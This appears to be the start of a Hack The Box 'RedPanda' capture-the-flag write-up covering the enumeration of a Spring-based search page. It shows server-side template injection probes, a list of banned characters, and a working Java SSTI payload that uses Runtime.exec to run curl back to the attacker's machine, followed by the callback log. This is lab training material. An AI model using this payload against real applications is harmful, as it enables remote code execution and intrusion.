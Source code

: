 ## Enumeration
Visiting the website on port `8080`, I found out that the site is for a panda search

![rp-1](https://user-images.githubusercontent.com/87711310/214075853-2ed1a5eb-5fe0-4593-9c1f-f9399078669d.png)

When I pressed the search button, it shows that the machine has `/search` directory and might require us to perform some kind of `injection`.

![rp-2](https://user-images.githubusercontent.com/87711310/214075859-0bb4648f-aa76-43f0-b565-f7c536e0bc08.png)

Firstly, I tried performing SQL Injection and it did not work.

![rp-3](https://user-images.githubusercontent.com/87711310/214078934-6fa40d05-fff5-4800-9549-cd17c0714a1d.png)

So then I tried `Server-Side Template Injection (SSTI)` and realized it works! I tried `#{7*7}` which works. You can obtain the list of SSTI payloads from [here](https://github.com/payloadbox/ssti-payloads)

![rp-4](https://user-images.githubusercontent.com/87711310/214079778-aae6db4e-0f4b-4d2f-9f1a-9187ac5e5387.png)

Now that I had identified the type of injection, it was time to identify which programming language was used at the backend.

If I try `*{7*'7'}`, it wouldn’t work. This is an indicator that it is not a Python program.

Then, I tried `<%=7*7%>`, it wouldn’t work. This is an indicator that it is not a Ruby program.

So, then I tried `*{7*'7'}`, I received this error page. A quick Google of the error message allows me to find out it uses `Spring` Framework.

![rp-5](https://user-images.githubusercontent.com/87711310/214082596-e9447b3f-3bf4-472b-bc08-f7e9cfa732e3.png)

Googling of SpringFramework’s SSTI allows me to find a cheat sheet for it. I tested `*{"dfd".replace("d","x")}` and it works as characters `d` are replaced with `x`.

![rp-6](https://user-images.githubusercontent.com/87711310/214083002-29a8f45c-0f6d-47cc-95ab-a1b2c9620e09.png)


Apart from this, while doing some testing,  I received an error message that it contains banned characters. Further testing allows me to find out characters like `underscore (_)` and `percentage (%)`, are banned.

![rp-7](https://user-images.githubusercontent.com/87711310/214091147-d5361a25-c9e0-4d7f-97e1-5bfb7a99e2dd.png)


I also tried to test with cURL by hosting an HTTP server on my kali and send a `cURL` request using `SSTI` on the search bar.

```java
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.2")}
```

My kali was able to receive an incoming connection.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/RedPanda]
└─$ python3 -m http.server 80                  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.170 - - [24/Jan/2023 00:45:47] "GET / HTTP/1.1" 200 -
```

